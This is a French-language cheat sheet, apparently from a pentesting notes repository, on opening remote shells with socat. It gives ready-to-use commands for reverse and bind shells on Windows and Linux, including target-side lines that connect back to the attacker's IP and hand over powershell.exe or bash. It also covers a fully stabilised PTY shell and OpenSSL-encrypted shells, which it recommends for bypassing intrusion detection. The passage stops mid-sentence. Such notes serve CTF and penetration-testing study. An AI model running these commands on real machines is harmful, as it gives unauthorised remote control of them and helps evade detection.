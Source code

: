 
## __Reverse shell__

[Binaire précompilé de socat](Binaries##__Linux__###x86-64####Socat) 
Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener -- Notre machine

Sur notre machine il faut effectuer la commande :

```shell
user@ip: ~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection -- Machine cible

Sur la machine cible, on va effectuer la commande :

1) Sur une machine **windows**

```shell
PS C:\Users\user> socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

2) Sur une machine **linux**

```shell
user@raspberrypi: ~$ socat TCP:<NOTRE-IP>:<LOCAL-PORT> EXEC:"bash -li"
```


## __Bind shell__

#### 1- Listener -- Machine cible

1) Sur la machine cible sous **Linux** :

```shell
user@raspberrypi: ~$ socat TCP-L:<TARGET-PORT> EXEC:"bash -li"
```

2) Sur une machine **Windows**

```shell
PS C:\Users\user> socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

#### 2- Connection -- Notre machine

```shell
user@ip: ~$ socat TCP:<TARGET-IP>:<TARGET-PORT> -
```


## __Stable Reverse shell__

Pour setup un reverse shell entièrement stable, on va

#### 1- Listener -- Notre machine

```shell
user@ip: ~$ socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

C'est l'équivalent de faire `stty raw -echo; fg`.

#### 2- Connection -- Machine cible

```shell
user@raspberrypi: ~$ socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

| Argument   | But                                                                                                                       |
| ---------- | ------------------------------------------------------------------------------------------------------------------------- |
| **pty**    | alloue un pseudoterminal sur la cible -- partie du processus de stabilisation                                             |
| **stderr** | s'assure que tous les messages d'erreur sont affichés dans le shell                                                       |
| **sigint** | transmet toutes les commandes Ctrl + C au sous-processus, ce qui nous permet de tuer les commandes à l'intérieur du shell |
| **setsid** | crée le processus dans une nouvelle session                                                                               |
| **sane**   |  stabilise le terminal en essayant de le "normaliser".                                                                                                                          |


## __Encrypted shell__

Les **shells chiffré** sont très utile pour **bypass les IDS** car ils ne peuvent **pas être lue** à part si l'on a la **clé de déchiffrement**.

La **syntaxe** pour les shells encrypté n'est pas différente à l'exception que le mot clé **TCP** est remplacé par **OPENSSL**.

#### 1- Générer le certificat -- Notre machine

```shell
user@ip: ~$ openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

Crée une **clé RSA de 2048 bits** dans un fichier **shell.key** et un **certificat correspondant** valide pendant 362 jours dans **shell.crt**.

#### 2- Fusion des clé et certificats -- Notre machine

```shell
user@ip: ~$ cat shell.key shell.crt > shell.pem
```

Fusion des 2 fichiers dans un fichier **shell.pem**.

#### 3- Listener -- Notre machine

```shell
user@ip: ~$ socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

**verify=0** précise qu'on 